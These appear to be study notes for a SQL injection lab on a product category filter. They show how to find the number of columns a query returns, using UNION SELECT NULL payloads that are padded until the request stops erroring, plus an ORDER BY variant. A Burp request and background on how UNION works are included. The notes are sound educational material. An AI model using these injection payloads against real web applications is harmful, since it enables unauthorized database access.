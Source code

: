 
## End goal: determine the no of column returned by the query by sql injection union attack that returns and addition row containing null values



## Burp suite

GET /filter?category=Gifts HTTP/2

## guessed query
select ? from table where category = 'gifts'


## payload

gifts ' union select null ,null ..... (until no error)


select ? from table where category = 'gifts`' union select null , null ... --` '


when entered 3 nulls we got 200 response , thus the number of column = 3



---
----
Extra note


SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

SQLi attack (way #1):

select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns

SQLi attack (way #2):

select a, b from table1 order by 3